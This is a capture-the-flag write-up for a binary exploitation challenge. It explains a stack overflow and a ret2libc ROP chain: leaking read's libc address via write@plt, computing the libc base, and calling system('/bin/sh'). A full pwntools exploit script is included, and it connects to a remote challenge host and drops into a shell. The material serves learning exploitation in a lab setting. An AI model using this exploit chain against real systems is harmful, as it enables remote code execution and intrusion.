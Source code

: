 For this, we'll have to craft a payload that'll first overwrite the stack (including `RBP` => 72 characters). Then, we need to prepare the arguments for the `write` call. Looking in `GDB` at how the write call is performed in our program, we can determine that `RSI` contains the buffer to be printer out, `EDI` is the file descriptor to which it writes, and `EDX` is the length which it'll print (this can be done also by analysis in `Ghidra`). Now, we have to find a way to put the address of `read` into `RSI`, and modify `EDX` (`EDI` remains 1 until the end of the program, thus needs no modification). We'll use `ROPGadget` for that one, as it prints out gadgets (possible useful instructions for binary exploitations that are immediately followed by `ret`). Looking through it's output, we see that there's a `POP RSI; POP R12; RET` gadget, but unfortunately, no `POP EDX; RET`, so we'll resort to having `EDX` set to what it was when the program ended. Since our `RSI` gadget also has a `POP R12` instruction, make sure to add a filler after the require address for `RSI`, such that our exploit chain doesn't break due to another `POP`. 
Now, for building the first part of the exploit, after the overflow we'll put our `POP RSI` gadget's address, with the address for `read` from GOT (address from `Ghidra` in .got section or from debugging) and the filler (can be any value), then we'll put the address of `write`, obtainined from the `PLT` (either from `Ghidra` in .plt section, or can be obtained via debugging), and last, we'll put an address from `main`, as we'd want to return there and continue our exploitation.

Now that we have a primitive for leaking the actual `libc` address of `read`, let's now load the provided `libc`, and calculate the base of it, by subtracting `read`'s offset from our leaked address. 

With the newly calculate `libc` base, we can calculate the actual runtime address of `system`, and the `/bin/sh` string, by using the offsets from the provided `libc`.

Let's build our second payload now.
We'll do the same overwriting, but for this we'll have to make `RBP` be NULL (0), so look for a gadget for `POP RBP; RET` and insert it after the overwrite, having the value `0x0` afterwards. (zombienator pwn challenge from unictf - 2023 - much love for this tip) (other good reference for this attack is `https://corruptedprotocol.medium.com/h-cktivitycon-2021-ctf-the-library-ret2libc-aslr-bypass-a83a8207f237`).

Now, lastly, we'll have to get a gadget for `POP RDI`, as in `RDI` will be the argument for `system`. Put in `RDI` the address of `/bin/sh`, and then have the address of system, and voila.

```Python
		from pwn import *
		overwrite = b"A"*72
		poprsi = p64(0x0000000000400741)
		read_at_got = p64(0x00600fe0)
		write_at_plt = p64(0x004004f0)
		safe_point_main = p64(0x0040064a)
		filler = p64(0x0)
		payload = overwrite + poprsi + read_at_got + filler + write_at_plt + safe_point_main
		#p = process("./pet_companion")
		p = remote("94.237.62.237", 48108)
		p.recvuntil("[!] Set your pet companion's current status: ")
		p.sendline(payload)
		p.recvline()
		p.recvline()
		p.recvline()
		leak = u64(p.recvline()[:6] + b"\x00\x00")
		p.recvuntil("[!] Set your pet companion's current status: ")
		print(f"Leaked libc address for read: {hex(leak)}")
		libc = ELF("./glibc/libc.so.6")
		libc_base = leak - libc.sym["read"]
		print(f"Calculated libc base: {hex(libc_base)}")
		system = p64(libc_base + libc.sym["system"])
		bin_sh = p64(libc_base + next(libc.search(b"/bin/sh\x00")))
		poprdi = p64(0x0000000000400743)
		poprbp = p64(0x0000000000400588)
		payload2 = overwrite + poprbp + filler + poprdi + bin_sh + system
		p.sendline(payload2)
		p.recv()
		import time
		time.sleep(5)
		p.interactive()
```